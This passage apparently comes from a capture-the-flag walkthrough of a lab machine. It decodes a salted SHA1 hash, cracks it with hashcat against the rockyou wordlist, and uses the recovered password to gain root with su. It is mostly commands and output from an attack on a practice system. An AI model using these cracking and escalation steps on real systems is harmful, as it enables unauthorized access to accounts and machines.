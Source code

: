 Recall that the salted hash is in the format `$SHA${SALT}${SHA1SUM_BASE64}`.

Decoded the `SHA1SUM_BASE64` to hash `b8fd3f41a541a435857a8f3e751cc3a91c174362` using [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)To_Hex('None',0)&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ&oeol=CR). 

To use `hashcat -m 120`, the `${SALT} d` needs to be indicated at the end of the hash.

```bash
cat hash
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
❯ hashcat -a 0 -m 120 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
...
```

Login as root with the cracked password.

```bash
ofbiz@bizness:/opt/ofbiz$ su root
Password: monkeybizness
root@bizness:/opt/ofbiz# 
```

